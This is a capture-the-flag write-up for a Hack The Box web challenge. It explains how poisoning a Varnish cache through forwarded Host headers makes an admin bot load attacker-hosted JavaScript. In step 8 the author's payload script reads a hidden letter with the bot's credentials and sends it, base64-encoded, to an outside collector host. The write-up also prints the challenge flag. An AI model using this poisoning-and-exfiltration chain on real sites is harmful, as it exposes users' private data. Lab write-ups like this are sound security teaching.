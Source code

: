 
## I have added an automation GO script


## wrietup

we have a site that you leave letters , and our flag is in on of this letters (letter 3 specfic) but it need an admin auth to see it
![Screenshot_84](https://github.com/kiro6/writeups/assets/57776872/372cfff9-ba16-4a15-9777-20847650d793)

project structre 
```
.
├── build-docker.sh
├── challenge
│   ├── index.js
│   ├── package.json
│   ├── routes
│   │   └── routes.js
│   ├── static
│   │   ├── background.png
│   │   ├── favicon.ico
│   │   ├── main.css
│   │   ├── main.js
│   │   ├── queen.svg
│   │   ├── sign-post.png
│   │   └── viewletter.js
│   ├── utils
│   │   ├── authorisation.js
│   │   ├── bot.js
│   │   └── database.js
│   └── views
│       ├── base.html
│       ├── index.html
│       ├── letter.html
│       └── viewletters.html
├── config
│   ├── cache.vcl
│   └── supervisord.conf
└── Dockerfile
```

i will mention the most important parts to solve the challenge 

## cache.vcl
in Varnish Configuration , the cache based on url and host header
```vcl
sub vcl_hash {
    hash_data(req.url);

    if (req.http.host) {
        hash_data(req.http.host);
    } else {
        hash_data(server.ip);
    }

    return (lookup);
}
```

## routs.js
in `/` and `/letters` cdn can be controlled by the user  
```js
router.get("/", (req, res) => {
    return res.render("index.html", {
        cdn: `${req.protocol}://${req.hostname}:${req.headers["x-forwarded-port"] ?? 80}/static/`,
    });
});

router.get("/letters", (req, res) => {
    return res.render("viewletters.html", {
        cdn: `${req.protocol}://${req.hostname}:${req.headers["x-forwarded-port"] ?? 80}/static/`,
    });
});
```

- when the submit func `visit` is called from `bot.js`
- `/submit` endpoint take json object contain message attribute
```js
router.post("/submit", async (req, res) => {
    const { message } = req.body;

    if (message) {
        return db.insertMessage(message)
            .then(async inserted => {
                try {
                    botVisiting = true;
                    await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
                    botVisiting = false;
                }
                catch (e) {
                    console.log(e);
                    botVisiting = false;
                }
                res.status(201).send(response(inserted.lastID));
            })
            .catch(() => {
                res.status(500).send(response('Something went wrong!'));
            });
    }
    return res.status(401).send(response('Missing required parameters!'));
});
```



message endpint used to get other letters
```js
router.get("/message/:id", async (req, res) => {
    try {
        const { id } = req.params;
        const { count } = await db.getMessageCount();
        const message = await db.getMessage(id);

        if (!message) return res.status(404).send({
            error: "Can't find this note!",
            count: count
        });

        if (message.hidden && !isAdmin(req))
            return res.status(401).send({
                error: "Sorry, this letter has been hidden by the easter bunny's helpers!",
                count: count
            });

        if (message.hidden) res.set("Cache-Control", "private, max-age=0, s-maxage=0 ,no-cache, no-store");

        return res.status(200).send({
            message: message.message,
            count: count,
        });
    } catch (error) {
        console.error(error);
        res.status(500).send({
            error: "Something went wrong!",
        });
    }
});
```
## bot.js

on every submit to a letter a bot is visiting the last submttied letter
```js
const puppeteer = require('puppeteer');

const browser_options = {
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update',
        '--js-flags=--noexpose_wasm,--jitless'
    ],
};

const visit = async(url, authSecret) => {
    try {
        const browser = await puppeteer.launch(browser_options);
        let context = await browser.createIncognitoBrowserContext();
        let page = await context.newPage();

        await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });

        await page.goto(url, {
            waitUntil: 'networkidle2',
            timeout: 5000,
        });
        await page.waitForTimeout(3000);
        await browser.close();
    } catch (e) {
        console.log(e);
    }
};

module.exports = visit;
```

# Steps 
1) i found out that `X-Forwarded-Host` i accepted and reflected on `/` and `/letters`
2) we can cache posion the server , send him `X-Forwarded-Host: My_Server` 
3) set `Host: 127.0.0.1` to make the cache server map it to the server ip , so when the bot in `bot.js` visit it it will be served the poioned cache
4) use the url with id paramter potiong to the next letter will be added while poioning the cache , here used `/letters?id=15` because i will add it later
![Screenshot_80](https://github.com/kiro6/writeups/assets/57776872/eb5e22d1-5b40-407a-8649-78bfe904a7e7)

5) now every request for a url in the frontend use absloute path like `/viewletter.js` and `main.js` will be requsted as `http://My_Server/viewletter.js`

6) submit a new letter
 ![Screenshot_81](https://github.com/kiro6/writeups/assets/57776872/d39b231e-641d-491e-a1f9-2be6467135db)

7) now the bot visted `/letters?id=15` which we posioned later
8) the bot will request `/viewletter.js` which we serve in our server as
```js
fetch("http://127.0.0.1:80/message/3").then((r) => {
    return r.text();
}).then((data)=>{
fetch("https://htbsolver.free.beeceptor.com/"+btoa(data) )
})
```
9) the script executed in the bot and send use the result
![Screenshot_85](https://github.com/kiro6/writeups/assets/57776872/1554bc0c-30a0-461e-bd36-922a4bacfc60)
10) decode the base64 to get the flag
```
{"message":"Dear Easter Bunny, Santa's better than you! HTB{7h3_3as7er_bunny_h45_b33n_p0150n3d!}","count":15}
```
